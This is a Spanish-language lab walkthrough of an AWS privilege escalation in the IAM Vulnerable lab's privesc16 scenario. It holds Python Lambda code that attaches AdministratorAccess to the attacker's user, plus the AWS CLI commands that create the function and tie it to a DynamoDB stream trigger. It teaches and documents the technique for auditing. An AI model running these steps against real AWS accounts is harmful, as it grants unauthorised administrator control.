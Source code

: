 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassRoleToNewLambdaThenTrigger

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc16. En este caso de explotación, el usuario de pruebas no tiene los permisos de invocar funciones lamba, solo mapear triggers a otro evento, en este caso a DynamoDB, por lo cual requiere que otro usuario actualice o que la base de datos se actualice para que funciones este caso de explotación.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc16
{% endembed %}

Un atacante con los permisos <mark style="color:green;">**iam:PassRole**</mark> , <mark style="color:green;">**lambda:CreateFunction**</mark> y <mark style="color:green;">**lambda:CreateEventSourceMapping**</mark> (y posiblemente dynamodb:PutItem y dynamodb:CreateTable), pero ~~sin el permiso _lambda:InvokeFunction_~~, puede escalar privilegios creando una nueva función de Lambda y conectándola a una tabla de DynamoDB. Posteriormente, cuando se inserta una nueva fila en la tabla, la función Lambda ejecuta un código que aumenta los privilegios del usuario.

### Configuración Inicial

Usuario del laboratorio: privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user con las políticas:

<figure><img src="../../../.gitbook/assets/image (23) (2).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener un rol existente que incluya los permisos:

* iam:AttachUserPolicy
* dynamodb:GetRecords&#x20;
* dynamodb:GetShardIterator
* dynamodb:DescribeStream
* dynamodb:ListStreams

y las funciones de Lambda deben tener permitido asumir este rol.&#x20;

La cuenta de AWS también necesita tener una tabla DynamoDB habilitada para transmisión.&#x20;

Alternativamente, si no existe una tabla DynamoDB, este método de escalada de privilegios aún puede funcionar si el atacante tiene el permiso dynamodb:CreateTable.

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user

{% hint style="info" %}
Al momento de configurar el perfil, se tiene que tomar en cuenta la región, que sea la misma donde se encuentra la Base Dynamodb,
{% endhint %}

### Explotación

En este escenario, se tiene que aprovechar del privilegio de <mark style="color:green;">lambda:CreateFunction</mark> para crear una función de lambda maliciosa que tendrá el código para adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda en Python es la siguiente:

{% code title="code.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16- PassRoleToNewLambdaThenTriggerWithNewDynamo-user',
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-1 --profile privesc16
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos creado nuestra función maliciosa vamos aprovechar nuestro otro privilegio de <mark style="color:green;">lambda:CreateEventSourceMapping</mark> para vincular nuestra función a cualquier evento que ocurra sobre una DynamoDB. En otras palabras, es necesario que en el ambiente que estemos auditando exista una tabla de DynamoDB.

<pre data-overflow="wrap"><code><strong>aws lambda create-event-source-mapping --function-name privesc --event-source-arn arn:aws:dynamodb:us-east-1:037572360634:table/Vulnerable/stream/2022-0608T00:18:02.839 --enabled --starting-position LATEST --region us-east-1 --profile privesc16
</strong></code></pre>

Dado que el usuario actual no tiene ningún permiso de DynamoDB, no es posible cargar una nueva fila y desencadenar el exploit. En su lugar, el atacante debe esperar a que otro usuario o un servicio actualice la tabla.

#### Uso de usuario alterno

Cuando otro usuario cambie, actualice o elimine datos de la base de DynamoDB, se ejecutará el trigger del lambda, a continuación se ejecutara un comando que actualiza la tabla simulando ser otro usuario AWS

```
aws dynamodb put-item --table-name privesc16 --item ‘{“test”:{“S”:”whatever”}}’
--region us-west-2
```

La acción en la tabla de DynamoDB hizo que se ejecutara la función Lambda vinculada, lo que aumentó los permisos del atacante: este método de escalada de privilegios es más fácil si el atacante también tiene los permisos <mark style="color:green;">dynamodb:CreateTable</mark> y <mark style="color:green;">dynamodb:PutItem</mark>, porque entonces el atacante puede crear una tabla de DynamoDB adecuada y cargar un elemento para activar el exploit.

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption><p>Elevación de privilegios exitosa</p></figcaption></figure>

